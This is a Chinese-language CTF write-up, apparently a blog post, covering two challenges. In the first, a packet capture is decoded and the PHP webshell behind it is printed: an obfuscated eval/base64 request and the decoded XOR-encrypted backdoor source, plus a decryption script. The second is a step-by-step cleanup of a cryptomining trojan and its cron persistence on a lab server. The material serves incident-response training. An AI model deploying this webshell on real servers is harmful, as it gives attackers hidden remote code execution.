<!-- generated-by: obsidian_git_blog_pipeline -->

## Wireshark
```plain
你可以在这个流量包中找到攻击痕迹吗
```

追踪tcp流，看到pass参数的漏洞



```plain
eval(base64_decode(strrev(urldecode('%3DoQD9pQD9BCIgAiCN0HIgACIgACIgoQD7kSeltGJsEGdhRGJoUGZvNmbl1TXl1WYORWYvxWehBHJb50TJN1UFN1XkACIgACIgACIgACIgoQD7lSZzxWYm1TPhkiIvZmbJN3YpNXYCRXZnJCLhRXYkRCKz9GcyR3coAiZpBCIgACIgACIK0welNHbl1HIgACIK0wOpYTMskSeltGJuM3chBHJoUDZthic0NnY1NHIvh2YlBCIgACIgACIK0wOpkSeltGJskSY0FGZkgib1JHQoUGZvNmblhSZk92YuV2X0YTZzFmYg8GajVGIgACIgACIgoQD7kiNxwCMskSeltGJuM3chBHJoUDZthic0NnY1NHIvh2YlBCIgACIgACIK0wOpQWYvxWehBHJowWY2VWCJoQD9BCIgACIgACIK0wOpkXZrRCLkF2bslXYwRCKlR2bj5WZ9QWYvxWehBHJgACIgACIgACIgACIK0wepU2csFmZ90TPpIybm5WSzNWazFmQ0V2ZiwCZh9Gb5FGckgycvBnc0NHKgYWagACIgACIgAiCNsTK5V2akwSXl1WYORWYvxWehBHJb50TJN1UFN1XkgSZk92YuVWPkF2bslXYwRCIgACIgACIgoQD7lSKdVWbh5EZh9Gb5FGckslTPl0UTV0UfRCK0V2czlGKgYWagACIgoQD7kSeltGJskSXzNXYwRyWUN1TQ9FJoUGZvNWZk9FN2U2chJGKlR2bj5WZ9EGdhRGJgACIgoQD7lSKdN3chBHJbR1UPB1XkgCdlN3cphCImlmCNszJ2QWN2cTYhVjYzM2YkRjZ1cSP5V2akoQD7cCZh9Gb5FGcn0TZtFmTkF2bslXYwRiCNszJkJ3b3N3chB3J9M3chBHJK0QfK0wOERCIuJXd0VmcgACIgoQD9BCIgAiCNszYk4VXpRyWERCI9ASXpRyWERCIgACIgACIgoQD70VNxYSMrkGJbtEJg0DIjRCIgACIgACIgoQD7BSKrsSaksTKERCKuVGbyR3c8kGJ7ATPpRCKy9mZgACIgoQD7lySkwCRkgSZk92YuVGIu9Wa0Nmb1ZmCNsTKwgyZulGdy9GclJ3Xy9mcyVGQK0wOpADK0lWbpx2Xl1Wa09FdlNHQK0wOpgCdyFGdz9lbvl2czV2cApQD'))));&password=eb9sY2MzYjVhYXz4eJX/+S1RNgIDU0r7MbF6YGUueGQ25ksoT+FNGk62+B78qedi1BpMLDJhUocyUvt7GK3+epd/qC4G0WRfKMx/e0Oq+fgr+C9iY+bBo/QrNzY1
```

经过urldecode reverse base64_decode后得到php木马脚本

```plain
#password=eb9sY2MzYjVhYXz4eJX/+S1RNgIDU0r7MbF6YGUueGQ25ksoT+FNGk62+B78qedi1BpMLDJhUocyUvt7GK3+epd/qC4G0WRfKMx/e0Oq+fgr+C9iY+bBo/QrNzY1
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='password';
$payloadName='payload';
$key='5f4dcc3b5aa765d6';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

查看加密流程，先进行base64解码后进行XOR加密

对其逆向进行解密

```plain
<?php

function encode_php($data, $key)
{
    $out = '';
    $len = strlen($data);
    for ($i = 0; $i < $len; $i++) {
        $c = $key[($i + 1) & 15];  // (i+1) mod 16
        $out .= $data[$i] ^ $c;
    }
    return $out;
}

function decode_payload($b64, $key)
{
    $data = base64_decode($b64);
    return encode_php($data, $key); // XOR decode
}

$key = "5f4dcc3b5aa765d6";
$b64 = "替换成 password= 后面的 Base64";

echo decode_payload($b64, $key);
```

解密后查看二进制，可疑看到数据头为`1f 8b 08`

是标准GZIP头，因此还需要对其进行GZIP解压

```plain
得到明文
cmdLine\x02$\x00\x00\x00sh -c "cd "/var/www/html/";pwd" 2>&1methodName\x02\x0b\x00\x00\x00execCommand
```

在最后一个tcp流中发现flag

```plain
sh -c "cd "/var/www/html/";
echo -n "ZmxhZ3tjY2ViZGI3OC00YjVjLTQyNTItYjIwYS0wMDM5OTEzYzVjOTR9" | base64 -d" 2>&1
```

base64解密后得到flag

```plain
flag{ccebdb78-4b5c-4252-b20a-0039913c5c94}
```

## Happy
##  特洛伊挖矿木马事件排查 
```plain
你是一名初级安全工程师，运维团队报告，公司的一台核心开发服务器（Ubuntu 22.04 LTS）出现CPU使用率异常飙高告警及安全设备检出外联挖矿事件。现在，你需要登录该服务器，排查并处置这一安全事件，并最终找出问题的根源。账号：root，密码：P@ssw0rd
```

### 任务1
```plain
任务名称：提交挖矿文件的绝对路径
任务分数：2.00
任务类型：静态Flag
提交挖矿文件的绝对路径，最终以flag{/xxx/xxx}格式提交
```

根据题目可以得知存外联挖矿事件, 且CPU使用率异常

因此使用`ps aux`查看详细进程信息





找到CPU占用最高的进程

```plain
flag{/tmp/kworkerds}
```

### 任务2
```plain
任务名称：提交挖矿文件的外联IP与端口
任务分数：2.00
任务类型：静态Flag
提交挖矿文件的外联的IP与端口，最终以flag{ip:port}格式提交
```

`netstat -antp`查看tcp连接端口

根据上题得到的PID找到对应连接，获得外联IP与端口



```plain
flag{104.21.6.99:10235}
```

### 任务3
```plain
任务名称：守护进程脚本的绝对路径
任务分数：2.00
任务类型：静态Flag
停止挖矿进程并尝试删除挖矿程序，根据异常判断，提交守护进程脚本的绝对路径，最终以flag{/xxx/xxx/xxx/xxx}提交
```

直接尝试删除文件

```plain
kill -9 PID
rm -rf filepath
```

kill后进程“重生”，rm显示无权限

先排除命令被感染的情况，使用busybox工具清除程序和进程

```plain
busybox&nbsp;kill&nbsp;-9 PID
busybox rm -rf filepath
```

但等待1分钟后，发现进程又存活了，猜测是否有权限维持的情况，先查看计划任务的情况

```plain
crontab -l
cat /etc/crontab
```



未发现守护进程相关信息

继续排查`/etc/cron.xxx`的目录



依次查看文件，在`/etc/cron.d/0guardian`发现可疑（一看就很可疑，但是不是答案）



继续追踪，查看文件信息



此脚本意为每次执行都会触发一次stat命令

但可能存在stat命令被污染的可能，尝试后发现这个程序就是守护进程（名字有点明显了）

```plain
flag{/usr/bin/.0guardian}
```

### 任务4
```plain
任务名称：异常处理
任务分数：2.00
任务类型：静态Flag
根据出现的异常及守护进程脚本，继续排查，以人为本，使用环境内浏览器访问：http://chat.internal-dev.net:8081 获取可疑网址，最终以flag{http://www.example.com}格式提交
```

难绷，文字情景模拟，随便试试就得到可疑网址了



```plain
flag{http://www.superlog-pro.com}
```

### 任务5
```plain
任务名称：分析病毒文件
任务分数：2.00
任务类型：静态Flag
分析病毒文件，提交其感染的所有程序，最终以flag{md5(/usr/bin/whoai,/usr/bin/ls,/usr/bin/top)}进行提交，顺序需以病毒文件中为准
```

访问上题得到的网址，下载病毒文件



这里需要将文件弄到主机并完成逆向

然后这里有个问题，我文件弄不下来😓



qsn靶场现在更新了传输方式，然后新的方法不会用捏（）


不管了，总之需要逆向（反正这部分也把部分给ai做）



能够看到写守护进程文件的函数



分析字符串能发现收到感染的程序

由题意进行md5 `md5(/bin/ls,/bin/ps,/bin/cat,/bin/rm,/bin/ss,/usr/bin/stat,/usr/bin/top,/usr/bin/wget,/usr/bin/curl,/usr/bin/vi,/usr/bin/sudo)`

```plain
flag{dac48e98a53b81b0218e2156e364f7ba}
```

### 任务6
```plain
任务名称：修复系统并恢复文件完整性
任务分数：2.00
任务类型：静态Flag
修复系统并恢复文件完整性：已知所有程序被感染，当前系统属于断网状态，所以作者贴心的在/deb_final目录下存放了对应程序的deb包，请尝试恢复所有程序，恢复完毕后在/var/flag/1文件获取flag
```

根据题目，直接使用软件包恢复程序

```plain
cd /deb_final
# 安装目录下所有包
dpkg -i *
```

运行后查看flag



```plain
flag{e510c5fca680b1b4bd5c9d8d6b3f4bdc}
```

### 任务7
```plain
任务名称：最终清理
任务分数：2.00
任务类型：静态Flag
最终清理：删除挖矿程序、删除计划任务及守护进程及清除相关进程，等待片刻在/var/flag/2获取flag
```

之前得知守护进程是计划任务服务，因此先停止计划任务

```plain
# 先停止计划任务服务，避免木马再次启动
systemctl stop cron

# 删除任务计划与守护进程
rm /etc/cron.d/0guardian
rm /usr/bin/.0guardian

# 销毁木马进程并清除木马
kill "<PID of trojan>"
rm /tmp/kworkerds

# 恢复服务运行
systemctl start cron
```



```plain
flag{081ce3688c6cd6e2946125081381087c}
```

